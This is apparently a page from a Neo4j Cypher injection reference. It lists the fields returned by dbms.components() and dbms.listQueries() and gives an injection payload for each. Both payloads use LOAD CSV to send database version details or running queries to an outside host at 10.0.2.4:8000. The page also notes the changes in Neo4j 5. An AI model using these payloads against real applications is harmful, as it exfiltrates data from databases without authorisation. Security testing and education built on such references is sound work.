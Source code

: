**Arguments:** none

**Return value:**

|Name|Description|Type|Example|
|---|---|---|---|
|name|The name of the component|String|Neo4j Kernel|
|versions|A list of versions|List⟨String⟩|[“4.4.10”]|
|edition|The component's edition|String|community|

**Injection example:**

```plaintext
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```

### Get the running query

### Neo4j 4

There are several ways to get the running query. The easiest one is to use the procedure dmbs.listQueries()

**Arguments:** None

**Return values:** Many, among them:

|Name|Description|Type|Example|
|---|---|---|---|
|query|The query itself|String|MATCH (o) RETURN o|
|username|The name of the user that has executed the query|String|Neo4j_user|
|parameters|The parameters with which the query is running|Map|main|
|database|The name of the database|String|Neo4j|

**Injection example:**

```plaintext
' OR 1=1 call dbms.listQueries() yield query LOAD CSV FROM 'http://10.0.2.4:8000/?' + query as l RETURN 1 // 
```

### Neo4j 5

Dbms.listQueries was removed. Instead, we can use “SHOW TRANSACTIONS”. There are two major limitations:

SHOW queries are not injectable

Unlike listQueries, we can only see the currently executed query in the transaction and not all of them.
